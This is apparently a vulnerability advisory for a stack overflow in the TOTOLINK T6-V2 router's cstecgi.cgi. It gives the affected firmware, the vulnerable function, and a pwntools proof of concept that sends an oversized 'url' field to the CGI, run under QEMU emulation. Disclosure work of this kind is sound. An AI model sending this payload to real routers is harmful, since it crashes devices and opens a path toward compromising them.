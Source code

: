 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00418540` (at address 0x418540) gets the JSON parameter `url`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529112058684.png" alt="image-20220529112058684" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setUrlFilterRules",
    "addEffect": "1",
    "enable": "1",
    "url": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

